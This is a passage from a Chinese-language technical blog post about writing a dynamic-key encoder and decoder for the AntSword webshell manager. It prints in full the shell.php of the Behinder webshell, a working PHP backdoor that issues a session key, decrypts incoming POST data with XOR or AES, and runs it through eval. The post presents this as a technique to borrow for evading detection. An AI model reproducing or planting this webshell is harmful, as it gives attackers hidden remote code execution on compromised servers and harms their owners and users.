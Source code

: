# 蚁剑实现动态秘钥编码器解码器


<meta name="referrer" content="no-referrer" />

## 前言

最近研究了一下蚁剑PHP的RSA和AES编码器，发现都是需要开启`openssl`扩展才可以使用

但是这个模块大多数情况下是不开的，所以就导致蚁剑的强加密类型的编码器、解码器无法使用

于是借鉴了一下冰蝎的思路，实现了一个动态秘钥的编码器解码器。

## 冰蝎的解决方案

我记得冰蝎在1.0版本有同样的问题，模块不开shell就用不了，但是2.0就解决了这个问题。

那么冰蝎是怎么解决的呢。

看一下他的shell.php是怎么写的

```
<?php
@error_reporting(0);
session_start();
if (isset($_GET['pass']))
{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION['k']=$key;
    print $key;
}
else
{
    $key=$_SESSION['k'];
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __construct($p) {eval($p."");}}
	@new C($params);
}
?>
```
